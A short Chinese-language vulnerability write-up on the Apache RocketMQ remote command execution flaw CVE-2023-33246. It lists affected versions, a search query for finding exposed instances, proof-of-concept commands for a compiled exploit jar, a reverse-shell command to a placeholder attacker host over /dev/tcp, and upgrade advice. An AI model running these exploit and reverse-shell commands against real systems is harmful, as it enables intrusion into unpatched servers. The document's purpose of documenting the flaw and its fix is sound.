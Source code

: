 # Apache RocketMQ RCE 漏洞 CVE-2023-33246

# Apache RocketMQ RCE 漏洞 CVE-2023-33246

## 漏洞描述

RocketMQ 是阿里巴巴在2012年开发的分布式消息中间件，专为万亿级超大规模的消息处理而设计，具有高吞吐量、低延迟、海量堆积、顺序收发等特点。

RocketMQ 5.1.0 及以下版本，在一定条件下存在远程命令执行风险。RocketMQ 的 NameServer、Broker、Controller 等多个组件暴露在外网且缺乏权限验证，攻击者可以利用该漏洞利用更新配置功能以 RocketMQ 运行的系统用户身份执行命令。此外，攻击者可以通过伪造 RocketMQ 协议内容来达到同样的效果。

## 漏洞影响

```
Apache RocketMQ <= 5.1.0
Apache RocketMQ <= 4.9.5
```

## 网络测绘

```
title="RocketMQ"
```

## 漏洞复现

poc：

```
java -jar CVE-2023-33246.jar -ip "target-ip" -cmd "command"
```

反弹 shell：

```
java -jar CVE-2023-33246.jar -ip "target-ip" -cmd "bash -i >& /dev/tcp/your-vps/9999 0>&1"
```

## 修复建议

目前官方已发布安全修复更新，受影响用户可以升级到Apache RocketMQ 5.1.1或者4.9.6。

链接：https://rocketmq.apache.org/download/

